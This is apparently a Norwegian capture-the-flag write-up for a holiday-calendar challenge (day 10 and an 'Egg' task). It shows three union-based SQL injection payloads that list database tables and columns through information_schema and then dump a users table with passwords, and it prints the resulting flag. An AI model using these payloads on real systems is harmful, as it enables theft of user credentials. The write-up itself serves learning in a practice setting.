

# Luke 10

Ny runde med SQL! De er fortsatt sårbare for samme SQL injection som sist, så jeg dumpet tabellene:

    kvakk' union select null,table_name,null,null,null,null from information_schema.tables--

Fant en tabell som het "brukere". Sjekket hvordan den så ut:

    kvakk' union select null,column_name,null,null,null,null from information_schema.columns where table_name='brukere'--

Dumpet brukerdatabasen:

    kvakk' union select id,passord,null,null,navn,null from v2.brukere--

Men her gravde jeg meg ned i et kaninhull. Passordene var formatert som **PST{hex-streng}** Trodde de hex-strengene var noe jeg skulle dra menig ut av, men når jeg så hvor kjapt folk begynte å poste flagg så tok jeg tre steg tilbake. Siden det var Eline som var ansvalig for løsningen, så prøvde jeg å poste hennes passord-entry og det var flagget.

    PST{c3ce11494e56a8897b6f80d1ca3dbe}	

# Egg 

Ble litt stressa av alle som plutselig postet egg. Trodde lenge det hadde noe med tap-koden i forrige oppgave å gjøre - at skulle brukes på noe fra tidligere oppgaver. Men jeg dykket som vanlig langt ned i kaninhull uten å komme noen vei.  Det var langt lettere enn som så.

Var så opptatt av SQL-injection på den siden at jeg aldri brukte network-tab :)
